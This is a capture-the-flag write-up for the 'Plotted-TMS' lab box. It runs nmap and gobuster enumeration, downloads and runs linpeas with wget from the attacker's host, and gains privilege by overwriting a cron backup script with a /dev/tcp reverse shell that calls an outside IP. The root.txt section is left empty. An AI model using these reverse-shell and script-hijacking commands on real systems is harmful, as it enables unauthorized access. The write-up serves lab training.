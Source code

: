# Plotted-TMS

## Task 1 Compromise

#### What is user.txt?

```bash
nmap -n -sV -sC 10.10.137.48
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 14-47-42.png>)

```bash
gobuster dir -u http://10.10.137.48 -w /usr/share/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-00-23.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-01-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-04-36.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-54.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-01.png>)

```bash
gobuster dir -u http://10.10.137.48:445 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
gobuster dir -u http://10.10.137.48:445/management \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-38.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-05-37.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-12.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-49.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-05-23.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-07.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-30.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-01-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-34-23.png>)

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/plot_admin/user.txt
ls -l /home/plot_admin/
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-42-05.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-50-17.png>)

```bash
ls -ld /var/www/scripts/
cat /var/www/scripts/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-11-34.png>)

```bash
echo '#!/bin/bash' > /var/www/scripts/backup2.sh
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' >> /var/www/scripts/backup2.sh
chmod +x /var/www/scripts/backup2.sh 
mv -f /var/www/scripts/backup2.sh /var/www/scripts/backup.sh 
```

```bash
nc -nvlp 4445
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/plot_admin/user.txt
```

{% hint style="success" %}

{% endhint %}

#### What is root.txt?

```bash
```

{% hint style="success" %}

{% endhint %}
